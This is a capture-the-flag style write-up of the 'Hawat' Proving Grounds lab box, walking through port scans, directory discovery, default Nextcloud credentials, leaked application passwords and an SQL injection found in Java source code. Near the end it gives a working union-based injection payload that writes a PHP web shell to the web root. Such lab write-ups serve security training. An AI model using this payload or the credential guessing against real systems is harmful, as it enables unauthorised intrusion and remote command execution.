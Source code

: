 # Hawat

## Introduction

Hawat is an offensive security proving grounds linux box rated as 'warm up' category.

## Enumeration

### Nmap

Nmap scan of all tcp ports.  

```
22/tcp    open   ssh          syn-ack ttl 61 OpenSSH 8.4 (protocol 2.0)
17445/tcp open   unknown      syn-ack ttl 61
30455/tcp open   http         syn-ack ttl 61 nginx 1.18.0
50080/tcp open   http         syn-ack ttl 61 Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
```

### Searchsploit

nginx 1.18.0 shows no known vulnerabilities.  
apache 2.4.46 shows no known vulnerabilities.  

### HTTP 17445

After browsing the webpage of the issue tracker, two directories and a main.js file can be found.  

```
/login
/register
```

Contained in the javascript file main.js is functionality suggesting an api.  

```
urlbase+'/delete/'+id
urlbase+'/list'
```

When looking around the site, I encounter an error page which after researching suggests spring boot.  

Username found after registering an account.  

`clinton`

### HTTP 50080

Webpage is an index.html powered by w3.css. Italian restaurant pizza business.  

Directory found in the html source code.  

```
/4/w3.css
/images/pizza.jpg
```

Directory scan with common.txt  

```
+ http://192.168.224.147:50080/~bin (CODE:403|SIZE:980)                                                                                                                                                           
+ http://192.168.224.147:50080/~ftp (CODE:403|SIZE:980)                                                                                                                                                           
+ http://192.168.224.147:50080/~http (CODE:403|SIZE:980)                                                                                                                                                          
+ http://192.168.224.147:50080/~mail (CODE:403|SIZE:980)                                                                                                                                                          
+ http://192.168.224.147:50080/~nobody (CODE:403|SIZE:980)                                                                                                                                                        
+ http://192.168.224.147:50080/~root (CODE:403|SIZE:980)                                                                                                                                                          
==> DIRECTORY: http://192.168.224.147:50080/4/                                                                                                                                                                    
+ http://192.168.224.147:50080/cgi-bin/ (CODE:403|SIZE:994)                                                                                                                                                       
==> DIRECTORY: http://192.168.224.147:50080/images/                                                                                                                                                               
+ http://192.168.224.147:50080/index.html (CODE:200|SIZE:9088)
```

Directory found with raft large directories.

`cloud`

Web application nextcloud login page found under the cloud directory.  

When trying credentials for nextcloud, the following were successful.  

`admin:admin`

Found issue tracker Java source code in the cloud repo, default issue tracker user credentials.  

```
username: issue_user
password: ManagementInsideOld797
```

## SQL injection

On review of the source code, there was custom code not integrated into the JPA.  
This custom code used get parameter input directly in the query.  

`/issue/checkByPriority`

With the request parameter.  

`priority`

SQL query in the source code.  

`select message FROM issue WHERE priority='"+priority+"'`


Finding the web root '/srv/http' in phpinfo.php on port 30455, the following injection can provide a webshell after being urlencoded.  

`' union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -`  

## Root

The web application was owned by root so no priv esc was needed.



